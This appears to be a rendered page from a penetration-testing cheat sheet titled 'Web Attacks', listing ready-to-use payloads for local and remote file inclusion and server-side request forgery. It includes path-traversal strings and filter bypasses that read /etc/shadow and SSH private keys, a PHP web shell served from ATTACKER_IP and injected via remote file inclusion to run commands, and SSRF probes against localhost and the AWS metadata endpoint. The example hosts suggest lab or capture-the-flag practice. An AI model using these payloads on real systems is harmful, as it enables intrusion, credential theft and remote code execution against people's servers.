

repository: georgenadejde/CheatShip · page: exploitation/web/index.html · generator: mkdocs

# Web Attacks

LFI/RFI, SSRF, SQL injection, command injection, authentication bypass.

---

## LFI / Path Traversal

### Basic traversal

```
http://site.thm/page?file=../../../../etc/passwd
http://site.thm/page?file=../../../../etc/shadow
```

### Filter bypass techniques

```bash
# null byte (PHP < 5.3.4)
?file=../../../../etc/passwd%00
```

```bash
# current dir trick (bypass /etc/passwd keyword filter)
?file=/etc/passwd/.
```

```bash
# double encode (filter strips ../ only once)
?file=....//....//....//etc/passwd
```

```bash
# forced directory prefix required
?file=languages/../../../../../etc/passwd
```

### Sensitive files to try

| Linux | Windows |
|:---:|:---:|
| `/etc/passwd` | `C:\boot.ini` |
| `/etc/shadow` | `C:\windows\win.ini` |
| `/root/.ssh/id_rsa` | `C:\inetpub\wwwroot\web.config` |
| `/var/log/apache2/access.log` | `C:\Windows\System32\drivers\etc\hosts` |
| `/root/.bash_history` | |
| `/proc/version` | |

### RFI — RCE via remote file

```bash
# host malicious PHP on attacker
echo '<?php system($_GET["cmd"]); ?>' > shell.php
python3 -m http.server 8080

# inject
?file=http://ATTACKER_IP:8080/shell.php&cmd=id
```

---

## SSRF

### Identify SSRF

Look for parameters that take URLs: `?url=`, `?image=`, `?srv=`, `?file=`, `?path=`

```bash
# target internal services
?url=http://localhost/admin
?url=http://127.0.0.1:8080/api
```

```bash
# cloud metadata (AWS)
?url=http://169.254.169.254/latest/meta-data/
```

```bash
# directory traversal via SSRF (bypass /private deny)
?url=x/../private
```
